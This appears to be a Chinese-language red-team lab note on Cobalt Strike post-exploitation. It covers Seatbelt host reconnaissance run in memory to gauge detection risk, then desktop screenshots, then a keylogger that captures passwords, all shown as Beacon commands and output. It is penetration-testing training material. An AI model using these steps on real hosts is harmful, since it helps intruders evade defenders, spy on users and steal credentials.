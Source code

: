 # Host Reconnaissance

主机侦查

> 在我们执行任何post-exploitation步骤之前，谨慎的做法是评估当前情况。我们执行的每项操作都存在一定的检测风险。这种风险的程度取决于我们的能力和任何防御者的能力。我们可以枚举主机以了解它受到保护和监控的程度。这可以包括防病毒 (AV) 或端点检测和响应 (EDR) 软件、Windows 审核策略、PowerShell 日志记录、事件转发等。

# Seatbelt

[Seatbelt](https://github.com/GhostPack/Seatbelt)是一个c#编写的用于主机探测的工具

什么是Common Language Runtime (CLR)？
.NET Framework 的一个组件，用于管理 .NET 程序集的执行，每个 .NET Framework 版本都设计为在特定版本的 CLR 上运行


枚举.NET Framework版本
```
beacon> reg queryv x64 HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full Release

Release                  460805
```

execute-assembly命令允许 Beacon 直接从内存运行 .NET 可执行文件，因此（一般而言）无需在运行这些工具之前将它们上传到磁盘
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
```

上面命令会产生大量输出，在安全配置方面主要留意下面的内容
```
====== AppLocker ======
[*] Applocker is not running because the AppIDSvc is not running

====== LAPS ======
LAPS Enabled                  : True

====== OSInfo ======
IsLocalAdmin                  :  False

====== PowerShell ======
Script Block Logging Settings
Enabled                       : True

====== Services ======
Non Microsoft Services (via WMI)

Name                          : Sysmon64
BinaryPath                    : C:\Windows\Sysmon64.exe
FileDescription               : System activity monitor

====== Sysmon ======
ERROR: Unable to collect. Must be an administrator.

====== UAC ======
[*] LocalAccountTokenFilterPolicy == 1. Any administrative local account can be used for lateral movement.

====== WindowsFirewall ======
Domain Profile
  Enabled                  : False

Private Profile
  Enabled                  : False

Public Profile
  Enabled                  : False
```


枚举用户环境变量
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=user
```

这个映射的驱动器条目向我们展示了用户配置文件放在远程共享上
```
Mapped Drives (via WMI)

  LocalName                      : H:
  RemoteName                     : \\dc-2\home$\bfarmer
  RemotePath                     : \\dc-2\home$\bfarmer
  Status                         : OK
  ConnectionState                : Connected
  Persistent                     : False
  UserName                       : DEV.CYBERBOTIC.IO\bfarmer
  Description                    : RESOURCE CONNECTED - Microsoft Windows Network
```

# Screenshots

屏幕截图

目的：可以显示用户正在使用的系统或应用程序、他们拥有的快捷方式、他们正在处理的文档等等

Beacon 有多个用于截屏的命令，它们的工作方式略有不同
```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

在cobaltstrike上截图
```
View > Screenshots
```

# Keylogger

键盘记录器

作用：键盘记录器可以捕获用户的键盘敲击记录，这对于捕获用户名、密码和其他敏感数据特别有用。

```
beacon> keylogger
[+] received keystrokes from Secret Application - Google Chrome by bfarmer
```

在cobaltstrike上记录键盘日志
```
View > Keystrokes
```

停止记录键盘日志命令：jobkill 
```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1
```